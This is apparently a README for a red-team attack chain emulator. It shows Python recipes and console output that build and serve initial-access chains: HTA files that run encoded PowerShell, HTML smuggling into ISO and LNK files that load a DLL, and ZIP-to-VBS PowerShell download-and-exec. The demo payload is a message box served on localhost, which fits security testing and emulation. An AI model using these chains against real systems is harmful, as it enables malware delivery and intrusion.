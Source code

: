 # ACE Fire Fist 

Attack Chain Emulator. Like pwntools, but for initial execution. 

## Example (recipe 3)

Source:
```py
# MSHTA -> Powershell:MessageBox
def recipe_3():
    ps1msgbox = makePowershellMessageBox()
    ps1msgbox = makePowershellEncodedCommand(ps1msgbox)

    cmd = AceStr("powershell.exe -EncodedCommand {}".format(ps1msgbox))
    mshta = makeMshtaJscriptExec(cmd)

    containerServe: AceRoute = AceRoute('/test.hta', mshta, download=True, downloadName='test.hta')
    serve(containerServe)
```

Execute:
```sh
$ rm out/*; python3 ace.py --recipe 3
INFO:basic_logger:--[ 1: makePowershellMessageBox() -> 1
INFO:basic_logger:--[ 2: makePowershellEncodedCommand(1) -> 2
INFO:basic_logger:--[ 3: makeMshtaJscriptExec(2) -> 3

Routes:
  /            Recipe overview
  /test.hta   (3)    Download: True test.hta

 * Serving Flask app 'web' (lazy loading)
```

Files:
```
$ ls -1 out/
out_1_makePowershellMessageBox.txt
out_2_makePowershellEncodedCommand.txt
out_3_makeMshtaJscriptExec.txt
```

Video: 
```
<tbd>
```



## Recipes

### recipe 1: 

HTML Smuggling -> ISO -> ( LNK -> Powershell:Load&Exec <- DLL )

```
python3 ace.py --recipe 1
```

Entry URL: http://localhost:5000/test


### recipe 2

ZIP -> VBS -> Powershell:Download+Exec <- Powershell-Messagebox

```
python3 ace.py --recipe 2
```

Entry URL: http://localhost:5000/test.zip


### recipe 3

MSHTA -> Powershell:MessageBox

```
python3 ace.py --recipe 3
```

Entry URL: http://localhost:5000/test.hta


## Example 

All artefacts get logged in `out/`:
```
out_0_file_evil.dll
out_1_makePowershell.txt
out_2_makeLnk.bin
out_3_file_clickme.lnk
out_4_makeIso.bin
out_5_file_test2.iso
out_6_makeHtmlSmuggling.txt
```


## Notes

```
rm out/*; ./ace.py ...
```


## Libraries

* libs/pylnk3: pylnk3-dev, as it has an important bugfix. No deps. 

